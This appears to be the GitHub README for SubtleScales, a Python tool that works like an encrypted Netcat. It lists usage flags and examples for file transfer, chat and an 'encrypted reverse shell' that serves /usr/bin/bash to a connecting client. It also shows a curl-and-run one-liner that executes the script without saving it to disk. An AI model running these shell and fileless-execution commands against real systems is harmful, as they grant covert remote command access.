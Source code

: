 # SubtleScales

SubtleScales: A simple and encrypted version of Netcat written in vanilla Python.

## 1. Usage

```{bash}
subtlescales.py [-h] [-a ADDRESS] [-b MAX_BYTES] [-e COMMAND] [-l] [-p PORT] [-r] [-w]

A simple and encrypted version of Netcat written in vanilla Python.

optional arguments:
  -h, --help            show this help message and exit
  -a ADDRESS, --address ADDRESS
                        listener's IP address, ignored when -l is specified
  -b MAX_BYTES, --max-bytes MAX_BYTES
                        maximum number of bytes to process at once, defaults to 1024
  -e COMMAND, --execute COMMAND
                        execute a command locally and transmit over an encrypted channel, requires -l
  -l, --listen          listen for incoming connections
  -p PORT, --port PORT  port to connect to or listen from, defaults to 8443
  -r, --read-only       read-only mode, only receive incoming data, invalid when -e is specified
  -w, --write-only      write-only mode, dont't expect incoming data
```

**Note**: It is possible to use without saving to disk as follows:

```{bash}
SubtleScales=$(curl -s https://raw.githubusercontent.com/rafagarci/subtlescales/main/subtlescales.py)
python -c "$SubtleScales" OPTIONS
```

## 2. Examples

### 2.1 Sending Files Through an Encrypted Channel

#### 2.1.1 Server

```{bash}
python3 subtlescales.py -rl > received_file
```

#### 2.1.2 Client

```{bash}
cat sent_file | python3 subtlescales.py -wa SERVER_IP_ADDRESS
```

### 2.2 Encrypted Reverse Shell

#### 2.2.1 Server

```{bash}
python3 subtlescales.py -b1 -le "/usr/bin/bash"
```

#### 2.2.2 Client

```{bash}
python3 subtlescales.py -b1 -a SERVER_IP_ADDRESS
```

**Note**: Consider running the following in order to have a more natural shell experience.

```{bash}
CTRL + Z
stty raw -echo; fg
```

### 2.3 Basic Encrypted Chat Over a Network

#### 2.3.1 Server

```{bash}
python3 subtlescales.py -l
```

#### 2.3.2 Client

```{bash}
python3 subtlescales.py -a SERVER_IP_ADDRESS
```

## Considerations

- Encryption is based on the **anonymous** `AECDH-AES256-SHA` cipher suite, which limits connections to TLS 1.2.
- The `-e` option might behave unexpectedly depending on the implementation of the executed command.
- Tested on Linux only.
- [Other considerations](https://stackoverflow.com/questions/77788893/how-do-i-create-and-connect-anonymous-dh-tls-sockets-with-python-and-securely-au).

## License

GNU GPLv3 © Rafael García
